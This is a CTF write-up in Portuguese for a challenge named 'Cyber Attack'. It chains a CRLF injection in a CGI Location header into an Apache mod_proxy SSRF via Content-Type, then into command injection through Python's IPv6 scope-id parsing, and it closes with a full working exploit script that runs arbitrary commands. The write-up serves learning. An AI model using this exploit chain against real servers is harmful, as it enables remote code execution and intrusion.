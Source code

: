 # Cyber Attack

>  Welcome, Brave Hero of Eldoria. You’ve entered a domain controlled by the forces of Malakar, the Dark Ruler of Eldoria. This is no place for the faint of heart. Proceed with caution: The systems here are heavily guarded, and one misstep could alert Malakar’s sentinels. But if you’re brave—or foolish—enough to exploit these defenses, you might just find a way to weaken his hold on this world. Choose your path carefully: Your actions here could bring hope to Eldoria… or doom us all. The shadows are watching. Make your move.

**Dificuldade:** Fácil  
**Código-fonte:** Fornecido  
**Técnicas utilizadas:** Injeção CRLF para forçar SSRF via Content-Type e Injeção de Comando

Esse desafio quase me fez desistir do CTF. Depois de terminar o [Trial By Fire](https://chatgpt.com/trail_by_fire/writeup-pt.md), fui direto pra esse aqui... e nada. Desisti e fui tentar o [Eldoria Panel](https://chatgpt.com/eldoria_panel/writeup-pt.md), que também falhei. E foi isso. Voltei nesse desafio só no domingo de manhã.

Basicamente, é uma aplicação PHP simples com uma funcionalidade principal: atacar um alvo específico. Você pode atacar usando um domínio ou um IP. A lógica do ataque está em dois scripts CGI escritos em Python, um para domínios e outro para IPs.

Ataque por domínio (em `src/cgi-bin/attack-domain`):
```python
form = cgi.FieldStorage()
name = form.getvalue('name')
target = form.getvalue('target')

if not name or not target:
    print('Location: ../?error=Hey, you need to provide a name and a target!')
try:
    count = 1 # Increase this for an actual attack
    os.popen(f'ping -c {count} {ip_address(target)}') 
    print(f'Location: ../?result=Succesfully attacked {target}!')
except:
    print(f'Location: ../?error=Hey {name}, watch it!')
    
print('Content-Type: text/html')
print()
```

Ataque por IP (em `src/cgi-bin/attack-ip`):
```python
form = cgi.FieldStorage()
name = form.getvalue('name')
target = form.getvalue('target')

if not name or not target:
    print('Location: ../?error=Hey, you need to provide a name and a target!')
try:
    count = 1 # Increase this for an actual attack
    os.popen(f'ping -c {count} {ip_address(target)}') 
    print(f'Location: ../?result=Succesfully attacked {target}!')
except:
    print(f'Location: ../?error=Hey {name}, watch it!')
    
print('Content-Type: text/html')
print()
```

O ataque por IP é bloqueado pelo reverse proxy do Apache, como podemos ver no `apache/apache2.conf`:
```conf
ServerName CyberAttack 

AddType application/x-httpd-php .php

<Location "/cgi-bin/attack-ip"> 
    Order deny,allow
    Deny from all
    Allow from 127.0.0.1
    Allow from ::1
</Location>
```

Ou seja: você pode tentar burlar a regex, mas vai falhar. Precisamos encontrar outra forma de contornar essa configuração do Apache.

Encontrei uma `injeção CRLF` no cabeçalho `Location:` dos dois scripts, mas inicialmente não consegui fazer nada de útil com isso.

Já tinha perdido várias horas na sexta tentando explorar esse caminho e não cheguei a lugar nenhum.

Então mudei minha abordagem. Em vez do clássico "tentativa e erro", resolvi pesquisar mais a fundo e bater um papo com meu amigo Gpeto (vulgo ChatGPT). Tentei olhar os arquivos de configuração diretamente e, quando isso também não levou a lugar algum, decidi abrir o `Dockerfile` e procurar por qualquer coisa suspeita.

Foi aí que encontrei esta linha:  
`RUN a2enmod rewrite cgi proxy proxy_fcgi proxy_http`

E foi quando as coisas ficaram esquisitas. Muito esquisitas.

Porque, por algum motivo maluco, o módulo `mod_proxy` do Apache permite fazer proxy com base no cabeçalho **Content-Type**. É isso mesmo que você leu.

Descobri essa insanidade no blog espetacular do `Carlos Polop`, o [HackTricks](https://book.hacktricks.wiki/en/network-services-pentesting/pentesting-web/apache.html?highlight=mod_proxy#arbitrary-handler-to-full-ssrf).

Com isso, tudo começou a se encaixar. Eu só precisava contornar a função `ip_address`. Comecei pelas validações de IPv4 e não achei nada interessante. Mas quando fui pra IPv6, logo vi algo que chamou minha atenção:

A função verifica se há uma barra `/` no endereço. Se não houver, ela chama `self._split_scope_id`:
```python
addr_str = str(address)
if '/' in addr_str:
	raise AddressValueError("Unexpected '/' in %r" % address)
addr_str, self._scope_id = self._split_scope_id(addr_str)
```

E o método separa o escopo usando `%`. Ou seja, podemos passar algo como `::1%$(whoami)`:
```python
@staticmethod
def _split_scope_id(ip_str):
	"""Helper function to parse IPv6 string address with scope id.

	See RFC 4007 for details.

	Args:
		ip_str: A string, the IPv6 address.

	Returns:
		(addr, scope_id) tuple.

	"""
	addr, sep, scope_id = ip_str.partition('%')
	if not sep:
		scope_id = None
	elif not scope_id or '%' in scope_id:
		raise AddressValueError('Invalid IPv6 address: "%r"' % ip_str)
	return addr, scope_id
```

O problema é que não podemos usar `/`. Minha primeira ideia foi usar base64, mas tive problemas porque a string estava sendo convertida para letras minúsculas.

Então fui de hexadecimal mesmo, convertendo o comando inteiro.

O payload ficou assim: `::1$($(python -c "print('{cmd}')"|sh)` (com os escapes certinhos). Usei `socket` puro pra enviar a requisição HTTP e controlar toda a codificação.

Script completo:
```python
import argparse
import socket
import urllib.parse
import requests
import urllib

parser = argparse.ArgumentParser()
parser.add_argument("--host", type=str, default="localhost", help="Target Host")
parser.add_argument("--port", type=str, default="1337", help="Target Port")
parser.add_argument("--cmd", type=str, default="cp /flag*txt /var/www/html/flag.txt", help="Command to execute on the server")

args = parser.parse_args()

hex_str = args.cmd.encode().hex()
cmd = urllib.parse.quote(''.join(f'\\x{hex_str[i:i+2]}' for i in range(0, len(hex_str), 2)))

payload = f"""
Location:+/nope
Content-Type:+proxy:http://127.0.0.1/cgi-bin/attack-ip%3ftarget=::1%$(python3%2b-c%2b"print('{cmd}')"|sh)%26name=BB

""".replace('\n','%0d%0a')
s = socket.create_connection((args.host, int(args.port)))
req = f"""GET /cgi-bin/attack-domain?target=-&name={payload} HTTP/1.1
Host: {args.host}

""".replace('\n','\r\n')
s.sendall(req.encode())
_ = s.recv(4096).decode()
s.close()

response = requests.get(f"http://{args.host}:{args.port}/flag.txt")
print(response.text)
```

Depois de rodar o script, a flag foi capturada com sucesso: 
![Flag](imgs/flag.png)

> **Nota:** Perdi o timing de escrever o write-up durante o evento e a festa acabou. Por isso, estou rodando o desafio localmente.  
> Mas juro que funciona. Sério mesmo!